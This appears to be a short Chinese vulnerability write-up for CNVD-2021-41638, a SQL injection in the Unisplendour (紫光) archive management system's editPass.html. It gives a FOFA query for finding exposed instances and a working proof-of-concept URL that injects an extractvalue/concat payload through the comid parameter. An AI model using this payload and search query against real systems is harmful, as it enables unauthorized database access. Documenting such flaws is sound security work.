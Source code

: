 # 紫光档案管理系统 editPass.html SQL注入漏洞 CNVD-2021-41638

## 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。 紫光电子档案管理系统存在SQL注入漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

```
紫光电子档案管理系统
```

## FOFA

```
app="紫光档案管理系统"
```

## 漏洞复现

登录页面

![image-20220525145742607](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251457947.png)

验证POC

```
/login/Login/editPass.html?comid=extractvalue(1,concat(char(126),md5(1)))
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251458637.png)